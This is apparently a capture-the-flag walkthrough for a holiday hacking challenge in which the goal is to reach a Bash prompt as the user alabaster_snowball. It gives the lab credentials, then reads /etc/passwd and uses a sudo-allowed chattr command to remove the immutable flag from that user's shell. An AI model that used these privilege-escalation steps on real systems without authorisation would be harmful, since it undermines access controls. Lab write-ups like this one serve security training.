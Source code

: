 # Alabaster Snowball - NYANCAT Shell
Inside the shell

```
nyancat, nyancat
I love that nyancat!
My shell's stuffed inside one
Whatcha' think about that?

Sadly now, the day's gone
Things to do!  Without one...
I'll miss that nyancat
Run commands, win, and done!

Log in as the user alabaster_snowball with a password of Password2,
    and land in a Bash prompt.

Target Credentials:

username: alabaster_snowball
password: Password2
```

Some hints:

```
User's Shells
From: Alabaster Snowball
On Linux, a user's shell is determined by the contents of /etc/passwd

Chatter?
From: Alabaster Snowball
sudo -l says I can run a command as root. What does it do?
```

Let's apply them:

```
elf@e6d5f5ac3f24:~$ cat /etc/passwd
elf:x:1000:1000::/home/elf:/bin/bash
alabaster_snowball:x:1001:1001::/home/alabaster_snowball:/bin/nsh
```

`/bin/nsh` is immutable but we can remove it with `chattr`

```
elf@14a07541cd62:~$ lsattr /bin/nsh
----i---------e---- /bin/nsh
sudoelf@14a07541cd62:~$ chattr -i /bin/nsh
chattr: Permission denied while setting flags on /bin/nsh
elf@14a07541cd62:~$ sudo /usr/bin/chattr -i /bin/nsh
elf@14a07541cd62:~$ lsattr /bin/nsh
--------------e---- /bin/nsh
```
